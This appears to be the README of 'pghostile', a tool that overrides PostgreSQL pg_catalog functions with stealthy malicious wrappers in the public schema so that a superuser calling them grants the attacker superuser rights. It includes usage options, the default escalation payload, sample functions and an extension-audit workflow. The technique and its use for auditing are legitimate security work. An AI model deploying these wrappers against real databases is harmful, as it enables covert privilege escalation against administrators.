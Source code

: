 # PGHOSTILE
Pghostile can make PostgreSQL an hostile environment for superusers and a nice playground for attackers.  
Pghostile is a automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.  

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.  
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.  

In a few words, pghostile searches pg_catalog for functions that can be overridden and creates a malicious wrapper of them in the public schema.  

Currently, it can identify ~150 functions/parameters combinations that can lead to privilege escalation. To give an example, the list below contains some of these functions:
```SQL
select sha256('a');
select byteaout('a');
select int4(1);
select btarraycmp(array [1, 2], array [1, 2]);
select array_position(array [1, 2], 1, 1);
select unnest(array [1, 2]);
select array_remove(array [1, 2], 1);
select array_replace(array [1, 2], 1, 1);
select varcharout('a');
select log(1);
select log10(1);
select ln(1);
select round(1);
select trunc(1);
select sqrt(1);
select pow(1, 1);
select power(1, 1);
select exp(1);
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
  -t, --track-execution
                        Track the exploit function execution
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.  
With the -T option you can disable the tests and just create the exploit functions.  
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.  
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function.  
The -t option enables the tracking of the execution of the exploit functions. It means that every successfull call of an exploit function is logged into a table of the current DB (pghostile.triggers). It's useful for extension analisys.  

### Example
```
pghostile.py user1 testdb -H 10.211.55.12
```
```
Starting ... 

[ * ] 332 interesting functions have been identified
[ * ] Creating test functions
[ * ] Testing functions
[ * ] Deleting test functions
[ * ] Creating exploit functions
[ * ] Done! 251 functions have been created

150 exploitable functions and params combinations have been tested!
The './out' folder contains the output
```

## PG Extension audit
Pghostile can be used to audit the security of PostgreSQL extensions:
1. Run pghostile with the '-t' option to enable execution tracking
```
pghostile.py -t user1 testdb
```
2. Run, as superuser, as many extension's queries/functions as possible
```
psql -U postgres testdb < extension_queries.sql
```
3. Check if you are superuser ;)
```sql
SELECT rolsuper FROM pg_roles where rolname='user1';
```
4. If you are superuser, all the functions that triggered the exploit are listed in
```sql
select * from pghostile.triggers
```
